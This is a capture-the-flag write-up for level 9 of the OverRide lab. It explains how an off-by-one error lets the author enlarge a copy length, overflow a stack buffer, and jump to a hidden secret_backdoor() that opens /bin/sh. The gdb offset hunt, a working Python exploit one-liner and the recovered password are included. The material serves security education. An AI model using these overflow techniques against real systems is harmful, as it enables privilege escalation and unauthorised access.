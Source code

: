 # Level 9

## Vulnerability

Off-by-one error

## Context

We find a binary with owner ```end``` and SUID.
```
level09@OverRide:~$ ls -l
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

When run it prompts user for a username, and a message which is supposedly sent to *Unix-Dude*.
```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Drew
>: Welcome, Drew
>: Msg @Unix-Dude
>>: Dear Unix-Dude, lots of love, Drew
>: Msg sent!
level09@OverRide:~$
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level09/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

### Overview

The binary simply prompts for, then copies, username and a message.

Investigating with gdb we find a hidden function ```secret_backdoor()```, which reads to a buffer from stdin, then calls ```system()``` with the buffer. Obviously we would like to jump to ```secret_backdoor()``` somehow, and enter ```/bin/sh``` on stdin, to open a shell.

### Off-by-one error

The copy username loop has an off-by-one error, which allows the user to overwrite the ```len_message``` variable by one byte.

A larger ```len_message``` than the default 140 can cause strncpy to overflow the buffer when copying the *Msg*.

So let's fill the 40 byte username buffer then overflow by 1 byte into ```len_message```, writing the maximum 1 byte value ```0xff```.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude

>>: >: Msg sent!

Segmentation fault (core dumped)
```
Great, its segfaults.

### Find offset

Can we overflow and overwrite the return address with the address of ```secret_backdoor()```?

Since the binary was compiled in 64-bit, RSP (not EIP) is the return address register.

[Using this buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following example in gdb, we find we start to overwrite RSP after 200 bytes.
```
level09@OverRide:~$ gdb -q level09
...
(gdb) run
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp                                              // RSP return address
0x7fffffffe588:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"  // We find this string in the pattern string above after 200 characters
```

### Find secret_backdoor address

Finally we need to find the address of ```secret_backdoor()```.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Build exploit

So we build our exploit:
1. 40 byte username buffer, until overflow ```len``` - ```"A" * 40```
2. 1 byte, max value, overwrite ```len``` - ```\xff```
3. new line, enter unsername - ```\n```
4. 200 byte msg buffer, until overflow RSP - ```"A" * 200```
5. overwrite RSP with address of ```secret_backdoor()``` - ```\x8c\x48\x55\x55\x55\x55\x00```
6. new line, enter msg - ```\n```
7. system() open shell command - ```/bin/sh```

Let's pipe that into the binary stdin.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## End

Let's log in to user ```end```.
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```
Good Game !
